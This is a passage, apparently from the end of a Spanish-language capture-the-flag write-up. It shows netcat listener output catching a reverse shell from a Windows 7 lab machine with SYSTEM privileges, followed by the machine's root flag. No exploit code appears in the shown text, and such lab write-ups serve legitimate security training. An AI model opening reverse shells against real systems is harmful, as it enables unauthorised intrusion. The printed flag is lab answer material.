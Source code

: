 Con esto veremos que ha funcionado, por lo que si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 5555 ...
connect to [192.168.28.5] from (UNKNOWN) [192.168.28.4] 49178
Microsoft Windows [Versi�n 6.1.7600]
Copyright (c) 2009 Microsoft Corporation. Reservados todos los derechos.

C:\Windows\system32>whoami
nt authority\system
```

Vemos que seremos ya `nt authority\system` por lo que habremos terminado la maquina, ahora leeremos la `flag` del `administrador`.

> root.txt

```
jbeaf7gvser79aw6vvbf78wrgv
```
